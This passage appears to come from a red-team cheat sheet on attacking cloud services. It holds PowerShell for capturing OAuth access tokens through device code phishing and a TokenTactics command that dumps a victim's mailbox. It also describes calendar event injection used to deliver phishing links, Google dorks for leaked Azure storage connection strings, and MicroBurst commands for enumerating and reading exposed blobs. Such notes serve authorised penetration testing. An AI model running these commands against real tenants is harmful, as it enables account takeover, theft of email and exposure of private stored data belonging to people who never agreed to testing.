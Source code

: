 #### Capture Access Token
- Manually saves in `$GraphAccessToken`
```
$body=@{
	"client_id" = $ClientID
	"grant_type" = $GrantType
	"code" = $authResponse.device_code
}
$Tokens = Invoke-RestMethod -UseBasicParsing -Method Post -Uri
"https://login.microsoftonline.com/common/oauth2/v2.0/token" -Body $body -ErrorAction SilentlyContinue
$GraphAccessToken = $Tokens.access_token

$GraphAccessToken 
```

- TokenTactics will capture the token. This is saved in `$response.access_token` variable.
```
$response.access_token
```

#### Post exploitation
- Example dump mailbox with TokenTactics:
```
Dump-OWAMailboxViaMSGraphApi -AccessToken $response.access_token -mailFolder  
AllItems
```

#### Dynamic Device Code Phishing
- https://www.blackhillsinfosec.com/dynamic-device-code-phishing/

### Google workspace calendar event injection
- Silently injects events to target calendars
- Bypasses the “don’t auto-add” setting
- Include link to phishing page
- https://www.blackhillsinfosec.com/google-calendar-event-injection-mailsniper/

## Public Storage
### Find data in public storage
- https://github.com/initstring/cloud_enum can scan all three cloud services for multiple services.
- https://github.com/jordanpotti/CloudScraper can scan all three cloud services for multiple services.

### Azure storage accounts
#### Google Dorks
```
site:github.com “StorageConnectionString” “DefaultEndpointsProtocol”
site:http://blob.core.windows.net
```

#### Enumerate Azureblobs
- add permutations to permutations.txt like common, backup, code in the misc directory.
```
Import-Module ./Microburst.psm1
Invoke-EnumerateAzureBlobs -Base <COMPANY NAME>
```
- Access the URL's and see if any files are listed (Example `https://<STORAGE NAME>.blob.core.windows.net/backup?restype=container&comp=list`)
- Access the files by adding it to the url (Example `https://<STORAGE NAME>.blob.core.windows.net/backup/blob_client.py`)
- Check for a SAS URL, if found then open the "Connect to Azure Storage", select "blob container" and select 'Shared Access Signatur (SAS)' and paste the URL, displayname will fill automatically.